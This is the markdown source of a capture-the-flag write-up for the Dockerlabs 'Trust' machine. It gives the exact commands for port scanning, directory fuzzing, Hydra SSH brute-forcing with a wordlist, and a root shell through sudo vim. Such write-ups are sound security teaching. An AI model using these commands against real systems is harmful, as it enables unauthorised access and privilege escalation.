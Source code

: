 ```yaml
---
layout: single
title: Trust - Dockerlabs
excerpt: "This very easy machine required performing fuzzing to find hidden directories and obtain a user. Then, we used Hydra to brute force and get the SSH credentials. Finally, to escalate to root, we used the vim binary which had sudo permissions."
date: 2024-06-22
classes: wide
header:
  teaser: /assets/images/dockerlabs-trust/trust-logo.png
  teaser_home_page: true
  icon: /assets/images/dockerlabs.png
categories:
  - dockerlabs
  - infosec
tags:
  - very easy
  - linux
  - bruteforce
  - privileged vim
---
```

![](/assets/images/dockerlabs-trust/trust_logo.png)
First, we start by setting up the lab using the root account (It's important to ensure the file has execution permissions).

```
sudo ./auto_deploy.sh trust.tar 
```

![](/assets/images/dockerlabs-trust/trust-1.png)

Test connectivity.
```
ping -c 1 172.18.0.2
```

![](/assets/images/dockerlabs-trust/trust-2.png)
## Portscan
Perform an initial scan to see which ports are open
```
nmap -p- -sS --min-rate 5000 -vvv -Pn 172.18.0.2 
```

![](/assets/images/dockerlabs-trust/trust-3.png)

Conduct a more specific scan to detect the versions of the previously found open ports.
```
nmap -p22,80 -sCV 172.18.0.2
```

![](/assets/images/dockerlabs-trust/trust-4.png)

## Apache
We notice there is an active web service and start exploring it.

![](/assets/images/dockerlabs-trust/trust-5.png)

Since we don't get much information from there, we use gobuster to discover hidden directories, specifically looking for php and html files in this case.

```
gobuster dir -u http://172.18.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html
```

![](/assets/images/dockerlabs-trust/trust-6.png)

Gobuster reports a directory called secret.php, which we check and it reveals a potential user named mario.

![](/assets/images/dockerlabs-trust/trust-7.png)
## Bruteforce
Since port 22 is also open, we use Hydra to brute force the SSH login for the user mario.
```sh
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2
```

The results show that mario's password is chocolate.

![](/assets/images/dockerlabs-trust/trust-8.png)

We attempt to connect via SSH, and it works successfully.

![](/assets/images/dockerlabs-trust/trust-9.png)
## Privesc

To escalate privileges, we run the following command to see if there are any binaries that can be executed with sudo permissions.

```
sudo -l
```

We observe that we can execute vim with sudo permissions.

![](/assets/images/dockerlabs-trust/trust-10.png)

We open vim with sudo and create a shell, which will be created as root.
```
sudo vim
:!/bin/bash
```

![](/assets/images/dockerlabs-trust/trust-11.png)

![](/assets/images/dockerlabs-trust/trust-12.png)

After executing this last command, we are automatically authenticated as root, which we can verify by running the `whoami` command.
```
whoami
```

![](/assets/images/dockerlabs-trust/trust-13.png)
## pwned!
